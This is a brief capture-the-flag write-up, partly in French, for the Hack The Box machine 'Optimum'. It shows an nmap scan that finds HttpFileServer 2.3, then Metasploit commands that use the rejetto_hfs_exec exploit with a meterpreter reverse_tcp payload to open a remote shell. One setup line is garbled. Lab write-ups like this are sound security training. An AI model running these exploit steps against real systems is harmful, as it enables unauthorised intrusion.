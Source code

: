 # Optimum [Windows] Easy

[https://app.hackthebox.com/machines/6](https://app.hackthebox.com/machines/6)

**— 1. Enumeration —**

```perl
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.8  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 18:22 EDT
Nmap scan report for 10.10.10.8
Host is up (0.017s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

![Untitled](Optimum%20%5BWindows%5D%20Easy%206b145cd337874f22a76f8f34e200cee0/Untitled.png)

**— 2. MetaSploit —**

`search rejetto`

`use windows/http/rejetto_hfs_exec`

`set LHOST RHOST SRVHOST` SRVHOST est votre IP

`set payload windows/x64/meterpreter/reverse_tcp`

`run`

blob:[https://app.hackthebox.com/208b586e-8f67-46f8-9e5f-2b91f382ff03](https://app.hackthebox.com/208b586e-8f67-46f8-9e5f-2b91f382ff03)